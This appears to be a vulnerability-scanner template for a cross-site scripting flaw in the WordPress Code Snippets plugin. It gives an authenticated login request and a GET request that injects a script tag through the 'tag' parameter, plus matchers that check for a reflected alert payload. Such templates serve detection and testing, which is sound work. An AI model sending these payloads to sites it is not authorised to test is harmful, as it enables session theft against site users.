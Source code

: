 ### Matchers

**Type - word**

- part - body
- words
  1. manage&a\">\<script>alert(1)\</script>">
  2. Manage Exports
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Code Snippets - Cross-Site Scripting

## Description

- WordPress Code Snippets plugin contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - wordpress,xss,wp-plugin,authenticated

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=snippets&tag=</script><script>alert(document.domain)</script> HTTP/1.1
Host: {{Hostname}}

```
